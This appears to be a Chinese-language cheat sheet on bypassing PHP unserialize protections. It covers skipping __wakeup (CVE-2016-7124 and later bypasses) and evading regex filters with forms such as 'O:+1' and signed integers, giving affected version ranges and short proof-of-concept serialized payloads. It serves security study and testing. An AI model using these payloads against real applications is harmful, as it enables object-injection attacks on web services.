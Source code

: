 # wakeup魔术方法绕过

## CVE-2016-7124

条件：

- 5.0.0 - 5.0.5
- 5.1.0 - 5.1.6
- 5.2.0 - 5.2.17
- 5.3.0 - 5.3.29
- 5.4.0 - 5.4.45
- 5.5.0 - 5.5.38
- 5.6.0 - 5.6.24
- 7.0.0 - 7.0.9

测试脚本 \<https://3v4l.org/a4BrQ\>

```php
<?php

class test{
	public $a='a';

	public function __construct(){

	}

	public function __destruct(){
		echo $this->a;
	}

	public function __wakeup(){
		$this->a='b';
	}
}


// echo serialize(new test());
// O:4:"test":1:{s:1:"a";s:1:"a";}

unserialize('O:4:"test":2:{s:1:"a";s:1:"a";}');
```

## CVE-2016-7124的绕过

条件：

- 7.0.0 - 7.0.14
- 7.1.0
- 5.4.14 - 5.4.45
- 5.5.0 - 5.5.38
- 5.6.0 - 5.6.29

测试脚本 \<https://3v4l.org/iLSA7\>

```php
<?php
//https://3v4l.org/iLSA7
//https://bugs.php.net/bug.php?id=73367
class obj {
	var $ryat;
	function __wakeup() {
		$this->ryat = null;
		throw new Exception("Not a serializable object");
	}
	function __destruct() {
		if ($this->ryat == 1) {
			var_dump('dtor!');
		}
	}
}

$poc = 'O:3:"obj":2:{s:4:"ryat";i:1;i:0;O:3:"obj":1:{s:4:"ryat";R:1;}}';
unserialize($poc);

?>
```

## 使用C代替O

条件：

- 5.3.0 - 5.3.29
- 5.4.0 - 5.4.45
- 5.5.0 - 5.5.38
- 5.6.0 - 5.6.40
- 7.0.0 - 7.0.33
- 7.1.0 - 7.1.33
- 7.2.0 - 7.2.34
- 7.3.0 - 7.3.28
- 7.4.0 - 7.4.16
- 8.0.0 - 8.0.3
- 只能执行construct()函数，无法添加任何内容

测试脚本 \<https://3v4l.org/YAje0\>

```php
<?php
//https://3v4l.org/YAje0
//https://bugs.php.net/bug.php?id=81151
class E  {
	public function __construct(){

	}

	public function __destruct(){
		echo "destruct";
	}

	public function __wakeup(){
		echo "wake up";
	}
}

var_dump(unserialize('C:1:"E":0:{}'));
```

## 利用反序列化字符串报错

利用条件：

- 7.0.15 - 7.0.33
- 7.1.1 - 7.1.33
- 7.2.0 - 7.2.34
- 7.3.0 - 7.3.28
- 7.4.0 - 7.4.16
- 8.0.0 - 8.0.3
- 利用一个包含\_\_destruct方法的类触发魔术方法可绕过\_\_wakeup方法。

```php
<?php

class D {

    public function __get($name) {
        echo "D::__get($name)\n";
    }
    public function __destruct() {
        echo "D::__destruct\n";
    }
    public function __wakeup() {
        echo "D::__wakeup\n";
    }
}

class C {
    public function __destruct() {
        echo "C::__destruct\n";
        $this->c->b;
        
    }
}


unserialize('O:1:"C":1:{s:1:"c";O:1:"D":0:{};N;}');
```

# 序列化字符串正则绕过

## 字符O绕过

条件：

- <7.1.33

测试脚本：\<https://3v4l.org/YclXi\>

```php
<?php
//https://3v4l.org/YclXi
class D {

}

class C {

}


unserialize('O:+1:"C":0:{}');
```

## 字符i、d绕过

条件：

- <8.0.3 （全版本）

测试脚本 \<https://3v4l.org/SJm2g\>

```php
<?php
//https://3v4l.org/SJm2g
// echo serialize(0);

echo unserialize('i:-1;');
echo "\n";
echo unserialize('i:+1;');
echo "\n";
echo unserialize('d:-1.1;');
echo "\n";
echo unserialize('d:+1.2;');
```

